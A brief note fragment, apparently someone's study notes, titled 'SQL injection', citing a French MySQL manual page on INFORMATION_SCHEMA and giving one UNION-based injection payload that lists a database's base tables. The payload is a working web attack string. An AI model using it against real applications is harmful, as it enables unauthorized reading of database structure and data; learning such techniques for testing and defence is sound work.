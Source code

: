 `SQL injection`
> sur la page 


https://mysql.developpez.com/tutoriels/manuel-de-reference-mysql-5-0/?page=La-base-de-donnees-d-informations-INFORMATION-SCHEMA#:~:text=INFORMATION_SCHEMA%20est%20la%20%C2%AB%20base%20de,plusieurs%20tables%20en%20lecture%20seule.


1 or 1=1 UNION SELECT table_name, table_type FROM information_schema.tables where table_type like 'base table'